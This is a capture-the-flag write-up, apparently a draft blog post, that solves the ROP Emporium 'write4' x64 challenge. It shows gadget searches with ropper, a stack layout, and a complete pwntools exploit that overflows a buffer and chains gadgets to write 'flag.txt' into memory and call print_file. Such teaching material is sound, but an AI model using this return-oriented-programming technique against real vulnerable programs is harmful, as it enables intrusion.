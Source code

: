 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-4
title: ROP x64 Challenge 4
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```

## Challenge 4


Once more into the breach with these rop exploits friends. We have a pretty simular situation to the 2nd challenge.

> **Important!**  
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

All we need to do is call the print_file function with the first argument being a pointer to a string containing "flag.txt". The one problem is a complete lack of that string in the binary. I used `strings` and `rabin2` to attempt to find them and found nothing.

Now considering this challenge is called write4 and it has a whole section on how to write to memory in the challenge description, I deduced I needed to write that string into memory. The challenge sudgests looking for something in the form `mov [reg], reg` so that's what I did.

```

pwndbg> ropper -- --search "mov [???],???
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???],???

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 

```
and look at that. I found 2 gadgets that might work. Now, I'd rather work with moving as much data at once which means using the r15 (8 bytes) rather then the edi (4 bytes), so that's the one I looked for first. 

```
pwndbg> ropper -- --search "pop r14"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400690: pop r14; pop r15; ret; 
```

This provides a perfect gadget to populate the write gadgets with whatever value we want. 

The question now is where to write our string to the binary. So we are going to use the `vmmap` cmd to look at what parts of the memory is writable

```
Looking at the perms on parts of the code we see the following areas are able to be written to
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

Note: the above is trimmed to only show the writable sections

The string is "flag.txt" which is 9 bytes long (including the null byte) which gets rid of a couple of the sections. So I chose the .data section of the binary to write into. 

The last gadget we'll need is something to control rdi for the parameter pass to the print_file

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400693: pop rdi; ret; 
```

Finally let's find the print_file function mentioned in the description.
```
disass print_file
Dump of assembler code for function print_file@plt:
   0x0000000000400510 <+0>:     jmp    QWORD PTR [rip+0x200b0a]        # 0x601020 <print_file@got.plt>
   0x0000000000400516 <+6>:     push   0x1
   0x000000000040051b <+11>:    jmp    0x4004f0
End of assembler dump.
```

Now with all of the information let's craft our stack layout. 

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r14 and r15
8  bytes | write loc      | # place location to write into r14
8  bytes | "flag.txt"     | # 1st 8 bytes of the string
8  bytes | write gadget   | # gadget to write into memory
8  bytes | pop_r gadget   | # do all of that again for the final null byte
8  bytes | "\x00"         | #     Note: bytes after may be init to null 
8  bytes | write loc + 8  | #           so you don't have to do this one
8  bytes | write gadget   |
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```


Coded up this gives the following exploit.

```python
#!/usr/bin/python3

from pwn import *

pop_gaget       = p64(0x0000000000400690)
write_gaget     = p64(0x0000000000400628)
pop_rdi         = p64(0x00400693)
write_loc       = 0x601028
print_file      = p64(0x00400510)
back_junk       = b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
def string_place(write_string, write_start):
        returnPayload = b""
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                #destination
                returnPayload += p64( write_start+ (i))
                temp = write_string[i:i+8] 
                temp += b"\x00" * ( 8 - len(temp) )
                returnPayload += temp
                returnPayload += write_gaget

        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload


io = process('./write4')

# This is the vaddr of system
# First return to the location of the pop rdi
# 4   0x00400510 GLOBAL FUNC       print_file
#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk

print("The payload is:")
print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))

sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```

Note: I started writing my exploits into files for easier debugging in gdb. Before I would run the exploit and then attach gdb for debugging with `gdb -p $pid` but now I can just do `r < ./payload` within gdb which is nice

